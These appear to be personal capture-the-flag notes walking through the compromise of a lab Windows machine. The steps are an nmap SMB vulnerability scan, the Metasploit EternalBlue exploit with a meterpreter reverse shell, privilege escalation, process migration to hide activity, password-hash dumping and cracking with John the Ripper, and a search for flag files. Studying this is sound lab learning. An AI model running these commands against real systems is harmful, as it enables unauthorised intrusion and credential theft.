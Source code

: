 do the nmap scan and could find smb port
do vulnerability scan using nmap

[locate .nse | grep smb]
[locate .nse | grep smb-vuln]
[nmap --script vuln -p 445 10.10.10.10]
[msfconsole -q] - [search eternalblue]
[auxiliary/admin.....] - scanners to find out whether vuln or not

now the service is vulnerable to eternalblue. lets try to exploit it. go to msfconsole

[msfconsole -q]

in msfconsole 

[search eternalblue]

[use exploit/windows/smb/ms17_010_eternalblue]

[set payload windows/x64/meterpreter/reverse_tcp]

getting a meterpreter shell

[background]

[use shell_to_meterpreter]

[show options] - set session to 1

[run]

[background]

[getuid]

[sessions -i 2]

[getsystem]

[ps]

[migrate -p] - by process id [migrate -N] - by process name

migrate service can be used to hide our process

[hashdump] - dumping windows hash files

[crackstation] - can be used to crack the hash

using johntheripper to crack the hash value

[john --format=nt -wordlist=rockyou.txt hash.txt]

flag1 was in c:/ itself
flag 2 was in c:/windows/system32/config
metasploit has search function

[search -f flag*.txt]